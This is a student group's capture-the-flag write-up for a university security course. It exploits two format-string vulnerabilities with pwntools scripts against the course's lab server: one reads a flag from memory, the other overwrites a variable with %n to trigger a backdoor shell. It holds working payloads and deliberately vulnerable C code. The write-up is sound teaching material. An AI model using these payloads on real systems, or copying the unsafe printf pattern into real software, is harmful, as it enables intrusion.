






# **CTF Challenges for Week 7**

# Challenge 1

In this challenge, by analyzing the source code within main.c, we can see that a format string attack may be possible to execute, due to the usage of an unsafe __printf__ function (line 27).

```c
scanf("%32s", &buffer); 
printf("You gave me this: ");  
printf(buffer);  
```

The next thing we did was to analyze the compiled program using __checksec__, in order to identify the security measures in place.

  

As a canary was found and NX is enabled, a buffer overflow attack is out of question. However, we can see that there is no PIE (which randomizes adresses of the executable). As a consequence of this, we can determine addresses in the memory of the application that will be useful to get to the flag.

By analyzing the code, we can also see that there is a function __load_flag__, which is called in the beggining of main, that opens the file where the flag is contained and retrieves it.

```c
void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}
```

That way, we can use gdb with the commands __b load_flag__ and __p &flag__ to see the address, which will not change as PIE is not activated.

  

With the address we have obtained, all that is left to do is read it by taking advantage of the format string vulerability. We do this by writing __\x60\xc0\x04\x08%s__, using the provided exploit_example.py file.

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

As we run it, we are presented with the flag for this challenge.

  
  

# Challenge 2

This challenge is similar to the first one, since there is also a format string vulnerability on line 14 that can be exploited. However, we don't have a function that retrieves the flag content. This time, by analyzing the code, we discover that if we are able to assign the value 0xBEEF to the key variable, the conditional statement will be executed, opening a shell where we can give commands to open the flag file.

```c
scanf("%32s", &buffer);
printf("You gave me this:");
printf(buffer);

//...

if(key == 0xbeef) {
    printf("Backdoor activated\n");
    fflush(stdout);
    system("/bin/bash");    
}
```

By running __checksec__ we see that the protections in place are the same as in the first challenge.

  

Like on challenge 1, we run the program with gdb to find the address of the variable key, using __p &key__.

  

At first glance, we may think that exploiting the vulnerability is as easy as in the first challenge. However, that is not the case.
What we have to do is put the address where the key is located in our string, and write 0xBEEF using __%n__ (which instead of printing something loads the variable pointed by the argument with a value equal to the number of characters that have been printed by it before). Converted to decimal base, 0xBEEF corresponds to 48879: this means we must inject a large number of chars in our payload, along with %n and the address of the key varaiable.  
However, the __scanf__ call in the code only accepts 32 bytes, so we will need to use a workaround.
We found that, by using the following code, we can introduce in the printf output the number of chars desired, without suprassing the 32 char limit. This way, we can effectively assign the value 0xBEEF to the key variable. Since the value of an address is 4 bytes, the number of chars to introduce will be 48879-4 = 48875.

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

#p.recvuntil(b"got:")
p.sendline(b"\x34\xc0\x04\x08" + b"%48875x" + b"%1$n") 
p.interactive()
#"\x34\xc0\x04\x08%48875x%1$n"
```

By changing the port of the server and the line to write in the exploit_example.py of the first challenge, we can run it and it will give us control of the shell, from where we are able to access the flag.txt file.

  


<br>

# Group 7, 08/11/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt